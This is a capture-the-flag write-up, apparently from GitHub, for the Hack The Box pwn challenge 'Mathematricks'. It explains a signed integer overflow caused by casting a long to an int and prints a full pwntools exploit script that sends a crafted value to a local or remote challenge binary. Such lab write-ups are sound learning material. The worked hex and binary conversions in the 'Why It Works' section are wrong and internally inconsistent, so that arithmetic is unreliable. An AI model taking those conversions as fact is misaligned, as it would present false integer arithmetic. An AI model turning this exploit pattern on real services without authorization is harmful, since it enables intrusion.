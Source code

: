 ```yaml
---
title: "Mathematricks 🧠 - Signed Integer Overflow Exploit Writeup"
tags: [HTB, binary exploitation, signed overflow, pwn]
---
```


# Mathematricks 🧠

![Category](https://img.shields.io/badge/category-Pwn-orange)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)
![Platform](https://img.shields.io/badge/platform-Linux-blue)
![HTB](https://img.shields.io/badge/HTB-Challenge-green)

How about a magic trick? Or a math trick? Beat me and I will give you an amazing reward!

## 📚 Table of Contents
- [Binary Protections Analysis 🛡️](#binary-protections-analysis-️)
- [Program Behavior 📟](#program-behavior-)
- [Reverse Engineering 🔍](#reverse-engineering-)
- [Exploitation Strategy 💣](#exploitation-strategy-)
- [Full Exploit Script 🧨](#full-exploit-script-)
- [Exploitation Result ✅](#exploitation-result-)
- [Conclusion 🧾](#conclusion-)

## Binary Protections Analysis 🛡️

We begin by running `checksec` on the binary:

![Checksec Output](https://github.com/user-attachments/assets/6418a92b-ca8b-4297-822e-3513f35c5e8c)

Findings:
- ✅ Full RELRO  
- ✅ Stack Canary found  
- ✅ NX enabled  
- ✅ PIE enabled  
- ❌ No FORTIFY

## Program Behavior 📟

Upon launching the binary, we are presented with two options:

![Program Menu](https://github.com/user-attachments/assets/736c8f34-35de-4583-aaa1-388f0d9e6c02)

Choosing the **"Rules"** option displays the following message:

> Solve the math questions to get the flag, some of them are tricky!

## Reverse Engineering 🔍

In Ghidra, we decompiled the `game()` function:

![Ghidra Decompiled Game Function](https://github.com/user-attachments/assets/7bf67697-dc68-4e61-ae4c-207f080802b9)

We notice a simple chain of mathematical questions. Most of them are straightforward:

```c
if ((0 < lVar1) && (0 < lVar2)) {
    if ((int)lVar1 + (int)lVar2 < 0) {
        read_flag();
    }
}
```

The catch lies in the **last condition**, which leads to `read_flag()`.

## Exploitation Strategy 💣

The trick comes from how `long` values (64-bit) are cast into `int` (32-bit signed) values.

### 🔢 Limits:
- **Signed long (64-bit)**: -9,223,372,036,854,775,808 → 9,223,372,036,854,775,807  
- **Signed int (32-bit)**: -2,147,483,648 → 2,147,483,647

Even if we input a positive long, when casted to an `int`, we can **cause a signed overflow** by truncating the upper bits.  

This happens here:

```
if ((int)lVar1 + (int)lVar2 < 0)
```

By providing:
- `n1 = 1`
- `n2 = 1337133713371337`

→ The `int` cast of `n2` overflows to a **negative number**, satisfying the condition.

### 🧠 Why It Works

Let’s analyze the difference between two values:

#### ➤ Value 1: `133713371337`  
- In hex (64-bit): `0x0000001F24E6D099`
- Truncated 32 LSB (int): `0x24E6D099`
- Binary conversion: 00100100111001101101000010011001 (first bit = 0, positive number)  
- Interpreted as **signed int**: **+619825177** ✅ still positive

#### ➤ Value 2: `1337133713371337`  
- In hex (64-bit): `0x04CFF4073DD9`
- Truncated 32 LSB (int): `0x073DD9` → in full: `0xF4073DD9`
- Binary conversion: 11110100000001110011110111011001 (first bit = 1, negative number)
- Interpreted as **signed int**: **-199303543** ❌ negative!

The high bit (MSB) is `1` in the casted 32-bit value, marking it as **negative** when interpreted as a `signed int`.

Thus:
```
(int)1 + (int)-199303543 = -199303542 < 0 → condition met ✅
```

(With n2 = 2147483647 it works too, because the first bit of the truncated 32 LSB of n1 + n2 (2147483648) is equal to 1, even if 2147483647 is lower than 133713371337.)

## Full Exploit Script 🧨

```python
from pwn import *
import argparse

def main():
    parser = argparse.ArgumentParser(description="Exploit mathematricks (local or remote)")
    parser.add_argument("-r", "--remote", help="Remote mode with IP and port", nargs=2, metavar=("IP", "PORT"))
    parser.add_argument("-l", "--local", help="Local mode with a binary", metavar="BINARY")
    args = parser.parse_args()

    if args.remote:
        ip, port = args.remote
        p = remote(ip, int(port))
    elif args.local:
        p = process(args.local)
    else:
        print("Please specify an execution mode: -r IP PORT or -l BINARY")
        return

    emoji_prompt = b'\xf0\x9f\xa5\xb8 '  # 🥸 prompt in UTF-8

    p.sendlineafter(emoji_prompt, b'1')             # Enter in game
    p.sendlineafter(b'> ', b'2')                    # Q1: 1 + 1 = ?
    p.sendlineafter(b'> ', b'1')                    # Q2: 2 - 1 = ?
    p.sendlineafter(b'> ', b'0')                    # Q3: 1337 - 1337 = ?
    p.sendlineafter(b'n1: ', b'1')                  # n1
    p.sendlineafter(b'n2: ', b'1337133713371337')   # crafted value for overflow

    print(p.recvall().decode(errors="ignore"))

if __name__ == "__main__":
    main()
```

## Exploitation Result ✅

And here's the final output with the flag:

![Exploit Result](https://github.com/user-attachments/assets/26504540-8213-48d7-937e-3e8dba22e77c)

```
HTB{f4k3_fl4g_f0r_t35t1ng}
```

## Conclusion 🧾

This challenge was a great example of a **signed integer overflow** logic bug.

- We leveraged the fact that a `long` is downcast to a `signed int`, possibly resulting in negative values.
- By choosing the right large 64-bit number, we forced an overflow and passed the logic check.

A perfect mix of math and low-level understanding 🔐🧠

🔙 [Back to Challenge Writeups](../../)
